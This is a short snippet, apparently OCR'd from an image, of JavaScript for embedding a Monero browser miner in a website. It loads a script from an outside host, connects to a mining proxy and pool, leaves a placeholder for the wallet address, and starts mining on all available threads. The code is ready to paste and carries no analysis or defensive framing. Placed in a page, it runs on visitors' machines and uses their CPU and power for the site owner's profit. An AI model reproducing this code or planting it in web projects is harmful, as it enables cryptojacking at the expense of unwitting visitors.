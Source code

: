 #setminer default https://monerominer.rocks/miner-website-integration/javascript-miner/
<script src="https://script.ghgi.xyz"></script>
<script>
    server = "wss://ny1.xmrminingproxy.com";
    var pool = "moneroocean.stream";
    var walletAddress = "PUT YOUR WALLET ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
